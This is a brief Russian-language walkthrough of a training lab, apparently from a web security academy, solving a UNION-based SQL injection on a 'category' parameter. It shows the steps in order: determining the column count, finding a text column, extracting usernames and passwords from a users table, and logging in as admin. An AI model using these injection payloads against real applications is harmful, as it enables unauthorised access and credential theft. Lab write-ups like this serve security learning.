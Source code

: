1) Проверка, что столбцов 2 ( добавляем к "category" '+UNION+SELECT+NULL,NULL-- )
2) Добавив '+UNION+SELECT+'a',NULL-- , понимаем, что 1ое поле не содержит текст
3) Добавив '+UNION+SELECT+NULL,'a'-- , понимаем, что 2ое поле сожержит текст
4) Добавив '+UNION+SELECT+NULL,username||' - '||password+FROM+users-- , извлекаем данные
5) Находим и вводим логин и пароль админа
6) Лаба выполнена
